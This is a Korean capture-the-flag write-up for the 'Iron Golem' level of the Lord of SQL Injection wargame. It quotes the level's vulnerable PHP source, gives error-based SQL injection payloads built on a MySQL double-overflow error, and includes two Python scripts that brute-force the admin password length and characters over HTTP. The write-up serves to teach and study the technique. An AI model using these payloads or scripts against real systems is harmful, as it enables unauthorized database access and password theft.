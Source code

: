 # Lord of SQL Injection No.21 -Iron Golem
## 문제 출제 의도
Error Based SQL Injection의 이해 여부를 확인한다.
## 소스 코드 분석
+ 소스코드
~~~
    <?php
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(mysql_error()) exit(mysql_error());
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
    highlight_file(__FILE__);
    ?>
~~~

+ 소스 코드 분석
    - 금지 문자, 문자열
        * GET 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 pw값에 공백이 있으면 "sleep", "benchmark" 중 하나라고있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
    - 에러 출력
        ~~~
        if(mysql_error()) exit(mysql_error());
        ~~~
        * MySQL 쿼리 수행에 오류가 있으면 오류를 출력하고 문제 풀이에 실패한다. 
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.
## 문제 해결
- Mysql 지수 연산 최대치 이용
    + MySQL에서는 e를 이용한 지수 연산이 가능하다.
    ~~~
    >>> 9e0
    9.0
    >>> 9e1
    90.0
    >>>9e10
    90000000000.0
    ~~~
    + 지수 연산의 최대치는 9e307이다.
    + 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.
    + 이를 이용하여 9e307*2등을 이용해 에러를 유도 할 수 있다.
- pw 길이
    + 다음의 코드를 이용하여 pw의 길이를 구할 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    i=1
    pwlen = 0

    while i :
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((length(pw)='{}'),9e307*2,0)#".format(str(i))
        print(data)
        
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("DOUBLE value is out of range") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break   
        i+=1    
    ~~~
    + 위 코드를 실행하면 pw=16이 출력된다.
- pw 값
    + if문
        * if 문은 다음과 같은 형식을 취한다.
        ~~~
        if(값,참일때,거짓일때)
        ~~~
    + pw 의 값은 다음과 같은 코드를 이용해 알아내면 편리하다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
            data = "' or id='admin' and if((substr(pw, 1, {})='{}'),9e307*2,0)#".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            req = urllib.request.urlopen(re)

            if str(req.read()).find("DOUBLE value is out of range") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    + 이를 실행하면 pw=!!!!이 출력된다.
    + !!!!을 pw에 GET방식으로 입력하면 문제 풀이에 성공한다.